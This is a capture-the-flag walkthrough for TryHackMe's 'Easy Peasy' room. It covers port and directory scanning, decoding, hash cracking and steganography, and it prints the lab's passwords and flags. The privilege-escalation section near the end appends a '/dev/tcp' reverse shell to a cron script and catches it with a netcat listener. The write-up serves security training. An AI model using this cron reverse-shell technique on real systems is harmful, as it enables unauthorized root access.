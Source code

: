 # Easy Peasy

**Room Link:** [https://tryhackme.com/room/easypeasyctf](https://tryhackme.com/room/easypeasyctf)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (30) (5).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

port 5698 and 65524 found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (18) (3).png" alt=""><figcaption></figcaption></figure>



## Flag #1

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (7) (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (45) (2).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gobuster dir -u http://$VICTIM/hidden -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (10) (4).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (23) (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (28) (4).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
echo "ZmxhZ3tmMXJzN19mbDRnfQ==" |base64 -d
```

<figure><img src="../../.gitbook/assets/image (50) (3).png" alt=""><figcaption></figcaption></figure>

## Flag #2

**Kali**

```
curl http://$VICTIM:65524/robots.txt
```



<figure><img src="../../.gitbook/assets/image (8) (3).png" alt=""><figcaption></figcaption></figure>



[https://md5hashing.net/hash/md5/a18672860d0510e5ab6699730763b250](https://md5hashing.net/hash/md5/a18672860d0510e5ab6699730763b250)

<figure><img src="../../.gitbook/assets/image (37) (5).png" alt=""><figcaption></figcaption></figure>

## Flag #3&#x20;

<figure><img src="../../.gitbook/assets/image (49) (5).png" alt=""><figcaption></figcaption></figure>

## Hidden Directory

<figure><img src="../../.gitbook/assets/image (42) (4).png" alt=""><figcaption></figcaption></figure>



**CyberChef**: [https://gchq.github.io/CyberChef/#recipe=From\_Base62('0-9A-Za-z')\&input=T2JzSm1QMTczTjJYNmRPckFnRUFMMFZ1](https://gchq.github.io/CyberChef/#recipe=From\_Base62\('0-9A-Za-z'\)\&input=T2JzSm1QMTczTjJYNmRPckFnRUFMMFZ1)

<figure><img src="../../.gitbook/assets/image (22) (9).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (34) (4).png" alt=""><figcaption></figcaption></figure>



## Crack the Hash

**Kali**

```
wget https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py
python hash-id.py 940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81
```

<figure><img src="../../.gitbook/assets/image (47) (2).png" alt=""><figcaption></figcaption></figure>

Format turned out to be GOST

**Kali**

```
john --wordlist=easypeasy.txt --format=GOST hash.txt
```

<figure><img src="../../.gitbook/assets/image (20) (5).png" alt=""><figcaption></figcaption></figure>



## SSH Password

**Kali**

```
wget http://$VICTIM:65524/n0th1ng3ls3m4tt3r/binarycodepixabay.jpg
steghide extract -sf binarycodepixabay.jpg 
Password: mypasswordforthatjob
```

<figure><img src="../../.gitbook/assets/image (36) (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (3).png" alt=""><figcaption></figcaption></figure>

**Link:** [https://www.rapidtables.com/convert/number/binary-to-ascii.html](https://www.rapidtables.com/convert/number/binary-to-ascii.html)

<figure><img src="../../.gitbook/assets/image (24) (8).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh boring@$VICTIM:6498
Password: iconvertedmypasswordtobinary
```

<figure><img src="../../.gitbook/assets/image (25) (5).png" alt=""><figcaption></figcaption></figure>

## User Flag

<figure><img src="../../.gitbook/assets/image (29) (4).png" alt=""><figcaption></figcaption></figure>

**Link:** [https://www.dcode.fr/caesar-cipher](https://www.dcode.fr/caesar-cipher)

<figure><img src="../../.gitbook/assets/image (9) (3).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation

**Victim**

```
cat /etc/crontab
cd /var/www/
ls -lah
```

<figure><img src="../../.gitbook/assets/image (26) (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
echo "sh -i >& /dev/tcp/$KALI/1337 0>&1" >> .mysecretcronjob.sh
```

**Kali**

```
nc -lvnp 1337
```

<figure><img src="../../.gitbook/assets/image (48) (1).png" alt=""><figcaption></figcaption></figure>



















































